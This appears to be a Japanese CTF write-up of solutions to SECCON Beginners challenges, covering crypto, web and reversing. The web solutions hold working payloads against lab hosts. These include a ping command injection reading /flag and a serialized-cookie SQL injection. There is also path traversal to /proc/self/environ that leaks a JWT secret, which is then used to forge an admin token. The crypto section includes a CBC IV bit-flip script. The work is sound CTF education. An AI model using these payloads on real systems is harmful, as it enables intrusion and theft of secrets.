 # SECCON Beginners CTF 2021

- https://github.com/SECCON/Beginners_CTF_2022

## Crypto

### CoughingFox

- https://www.youtube.com/watch?v=r0Ofky8LGJU&t=300s

#### Solution 1

```python
#!/usr/bin/env python3
from gmpy2 import isqrt
# c = (f + i)**2 + i
# f = sqrt(c - i) - i
# sqrt() が整数になるかどうかで i を判定する
cipher = [12147, 20481, 7073, 10408, 26615, 19066, 19363, 10852, 11705, 17445, 3028, 10640, 10623, 13243, 5789, 17436, 12348, 10818, 15891, 2818, 13690, 11671, 6410, 16649, 15905, 22240, 7096, 9801, 6090, 9624, 16660, 18531, 22533, 24381, 14909, 17705, 16389, 21346, 19626, 29977, 23452, 14895, 17452, 17733, 22235, 24687, 15649, 21941, 11472]
length = len(cipher)
flag = [0] * length
for c in cipher:
    for i in range(length):
        root = isqrt(c - i)
        if root**2 == c - i:
            flag[i] = root - i
            break
print(''.join([chr(ch) for ch in flag]))
```

### PrimeParty

- https://www.youtube.com/watch?v=r0Ofky8LGJU&t=948s

### command

- https://www.youtube.com/watch?v=r0Ofky8LGJU&t=2345

#### Solution 1

```python3
#!/usr/bin/env python3
# 1ブロック (16bytes) 以下
# CBC ビットフリップ: IV を改ざんして任意の平文を作る
from Crypto.Util.Padding import pad
from Crypto.Util.strxor import strxor
from pwn import log, process, remote
# io = process('./chal.py')
io = remote('::1', 5555)
io.sendlineafter(b'> ', b'1')
io.sendlineafter(b'> ', b'fizzbuzz')
io.recvuntil(b'Encrypted command: ')
inp = bytes.fromhex(io.recvline(keepends=False).decode())
iv, enc = inp[:16], inp[16:]
plain = pad(b'fizzbuzz', 16)
target = pad(b'getflag', 16)
newiv = strxor(strxor(iv, plain), target)
cmd2 = (newiv+enc).hex()
io.sendlineafter(b'> ', b'2')
io.sendlineafter(b'Encrypted command> ', cmd2.encode())
log.success('FLAG: %s', io.recvline().decode())
io.sendlineafter(b'> ', b'3')
```

## Web

### util

- https://www.youtube.com/watch?v=r0Ofky8LGJU&t=550s

#### Solution 1

- 開発者ツール > Network > Name > `ping` を右クリック、Copy > Copy as cURL (bash)

```zsh
curl 'https://172.23.177.114/util/ping' \
  -H 'Content-Type: application/json' \
  --data-raw '{"address":"127.0.0.1; cat /flag*"}' \
  --insecure |
  jq .result | grep -o 'ctf4b{.*}'
```

### textex

- https://www.youtube.com/watch?v=r0Ofky8LGJU&t=2070

#### Solution 1

```tex
\documentclass{article}
\usepackage{verbatim}
\newcommand{\ag}{ag}
\begin{document}
\verbatiminput{fl\ag}
\end{document}
```

### gallery

- https://www.youtube.com/watch?v=r0Ofky8LGJU&t=2910

#### Solution 1

```sh
#!/bin/sh
curl -sk 'https://127.0.0.1/?file_extension=fla' | grep -o '\S*flag\S*'
curl -sk https://127.0.0.1/images/flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf | wc -c
curl -sk https://127.0.0.1/images/flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf -r 0-10239 -o out1
curl -sk https://127.0.0.1/images/flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf -r 10240- -o out2
cat out* >flag.pdf
```

#### Solution 2

```python
#!/usr/bin/env python3
import requests
url = 'https://127.0.0.1/images/flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf'
chunk = 10240
start = 0
with open("flag.pdf", "wb") as f:
    while True:
        headers = {"Range": f"bytes={start}-{start+chunk-1}"}
        r = requests.get(url, headers=headers, verify=False)
        if r.status_code == 416 or not r.content:
            break
        f.write(r.content)
        print(f"[*] Downloaded bytes {start}-{start+len(r.content)-1}")
        start += chunk
```

### serial

- https://www.youtube.com/watch?v=r0Ofky8LGJU&t=3845

#### Solution 1

ローカル環境で、docker を立ち上げる。
`html/user.php` の `login()` 関数に以下を加えて、COOKIE にセットする値を求める

```php
$user->name = "xxx' UNION SELECT 1, body, 1 FROM flags;#";
$user->password_hash = '1';
echo base64_encode(serialize($user));
```

```zsh
curl 'https://172.23.177.114/index.php' \
  -b '__CRED=Tzo0OiJVc2VyIjozOntzOjI6ImlkIjtzOjE6IjEiO3M6NDoibmFtZSI7czo0MToieHh4JyBVTklPTiBTRUxFQ1QgMSwgYm9keSwgMSBGUk9NIGZsYWdzOyM  iO3M6MTM6InBhc3N3b3JkX2hhc2giO3M6MToiMSI7fQ==' \
  -Ik | grep -o '__CRED=.*' | cut -d= -f2 | base64 -d
```
### ironhand

- https://www.youtube.com/watch?v=r0Ofky8LGJU&t=4630

#### Solution 1

**COKKIE** を調べる

```
curl -ksi -X POST 'https://127.0.0.1/login' \
    -H 'Content-Type: application/x-www-form-urlencoded' \
    --data-raw 'username=admin' | grep -o 'JWT_KEY=.*;'

JWT_KEY=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3NjA5NzE3MjQsIlVzZXJuYW1lIjoiYWRtaW4iLCJJc0FkbWluIjpmYWxzZX0.Ov7Xtz-Kg6I8azDs63raSunwyED-W1ZdOWn_UWlu96c;
```

`%2e%2e` で `..` を表す。
nginx が `..` の数を数えているので、`/` の数を増やして上の階層へ移動
環境変数からシークレットを取り出す

```zsh
curl -ks https://127.0.0.1/static///////%2e%2e/%2e%2e/proc/self/environ -o - |
  strings | grep JWT
JWT_SECRET_KEY=U6hHFZEzYGwLEezWHMjf3QM83Vn2D13d
```

- https://jwt.io/

**JWTデコーダー** を選択

**JSON Web Token (JWT)** に取得した値を貼り付け
**シークレット** に取得した値を貼り付け


**JWTエンコーダー** を選択
**ペイロード:データ** を変更する

```json
{
  "exp": 1760971724,
  "Username": "admin",
  "IsAdmin": true
}
```

**JWTに署名：シークレット**

```plaintext
U6hHFZEzYGwLEezWHMjf3QM83Vn2D13d
```

**JSON WEB TOKEN**

```plaintext
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3NjA5NzE3MjQsIlVzZXJuYW1lIjoiYWRtaW4iLCJJc0FkbWluIjp0cnVlfQ.PKi9eLqWdu2NtGxb3qN54HE3FQGx_BPuQyAlX8jMUmE
```

```zsh
curl -ks https://127.0.0.1/ \
  -b JWT_KEY=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3NjA5NzE3MjQsIlVzZXJuYW1lIjoiYWRtaW4iLCJJc0FkbWluIjp0cnVlfQ.PKi9eLqWdu2NtGxb3qN54HE3FQGx_BPuQyAlX8jMUmE |
  grep -o 'ctf4b{.*}'
```

## reversing

### quiz

#### Solution 1

```
strings quiz|grep -o 'ctf4b{.*}'
```
